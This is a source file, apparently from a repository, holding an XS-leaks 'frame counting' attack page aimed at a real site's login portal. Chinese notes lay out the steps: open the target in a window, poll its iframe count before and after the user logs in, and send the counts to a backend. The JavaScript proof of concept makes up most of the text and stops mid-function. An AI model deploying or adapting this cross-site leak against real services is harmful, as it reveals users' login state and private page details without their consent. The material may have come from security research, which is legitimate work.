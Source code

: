 - 前端功能

1. window.open()打开对应网站登录界面
2. js会读取iframe的数，用户登录后再记录iframe数
3. 将控制台打印的iframe数输出在div标签中,css设置了flex大小
4. submit按钮后将iframe数输出给后台

- 记录两次，乐天旅行界面

```jsx
	<!DOCTYPE html>
<html lang="zh-Hans">
  <head>
    <meta charset="utf-8">
    <link rel="stylesheet">
    <title>xs-leaks attack page</title>
  </head>

  <style>
    .sm-item {
      display: flex;
      flex-flow: row nowrap;
      padding-left: 16px;
      font-size: 1.6rem;
    }
    .item-text{
        flex: 1 1 auto;
        margin: 11px 8px 11px 16px;
        font-family: inherit !important;
        /*超过宽度，自动换行*/
        white-space: pre-wrap;
        word-wrap: break-word;
      }
  </style>

  <body style="height: 100%;">
    <h1>XS-leaks through frame counting</h1>
    <p>This is a page to contact login page.</p>
    
    <script type="text/javascript">
      //第一次打开页面记录iframe
      var win = window.open("<https://aps1.travel.rakuten.co.jp/portal/my/prv_page.first?f_tab=1>");
      var pattern1 = [];
      // In a loop, register the number of iframes at 60ms interval
      var recorder = setInterval(() => {
        pattern1.push(win.length)
      }, 60);

      // Break the loop after 6 seconds
      setTimeout(() => {
         clearInterval(recorder);
         console.log("The pattern1 is: ", pattern1.join(', '));
      }, 6 * 1000);
  
      //12秒后等待用户登录后再记录iframe
      setTimeout(twiceOpen,12 * 1000);
      function twiceOpen(){
        var pattern2 = [];
        // In a loop, register the number of iframes at 60ms interval
        var recorder = setInterval(() => {
          pattern2.push(win.length)
        }, 60);
  
        // Break the loop after 18 seconds
```